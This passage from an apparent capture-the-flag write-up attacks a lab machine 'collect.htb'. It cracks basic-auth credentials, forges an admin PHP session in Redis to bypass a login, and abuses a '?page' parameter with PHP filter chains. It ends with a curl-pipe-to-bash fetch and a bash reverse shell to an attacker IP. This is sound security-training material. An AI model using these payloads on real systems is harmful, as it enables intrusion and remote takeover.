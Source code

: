 **htpasswd**  
```text
# developers_group:r0cket
developers_group:$apr1$MzKA5yXY$DwEz.jxW9USWo8.goD7jY1
```

## developers.collect.htb 1

We'll use the basic auth creds to get a view of developers.collect.htb but there's nothing except a new login panel

## Redis

We are now also able to access redis

```bash
redis-cli -h collect.htb                                                                                                                        
collect.htb:6379> AUTH COLLECTR3D1SPASS
OK
collect.htb:6379> info
# Keyspace
db0:keys=2,expires=2,avg_ttl=1137183
collect.htb:6379> keys *
# Our new session on developers.collect.htb
1) "PHPREDIS_SESSION:q18lv56iqpr197npjbakrboird"
# Our session on collect.htb
3) "PHPREDIS_SESSION:b8gl9c885k7c52t61afnen4nj8"
collect.htb:6379> get PHPREDIS_SESSION:q18lv56iqpr197npjbakrboird
""
collect.htb:6379> get PHPREDIS_SESSION:b8gl9c885k7c52t61afnen4nj8
"username|s:4:\"mrk1\";role|s:5:\"admin\";"
# Let's try to bypass developers.collect.htb login page
# We'll use auth|s:1:\"a\";
collect.htb:6379> set PHPREDIS_SESSION:q18lv56iqpr197npjbakrboird "username|s:4:\"mrk1\";role|s:5:\"admin\";auth|s:1:\"a\";"
```

## developers.collect.htb 2

We have successfully bypassed the login page and can now see the developers section.  

The parameter **?page** is vulnerable to remote code execution using filter chains. We will use this project [Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) to get an reverse shell on the system :)

**Prepare Filterchain**  
```bash
# Prepare Filterchain
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.10.16.28/x|bash` ?>'
```

**x**  
```bash
# The shellscript to be executed on the remote system
bash -i >& /dev/tcp/10.10.16.28/4000 0>&1
```
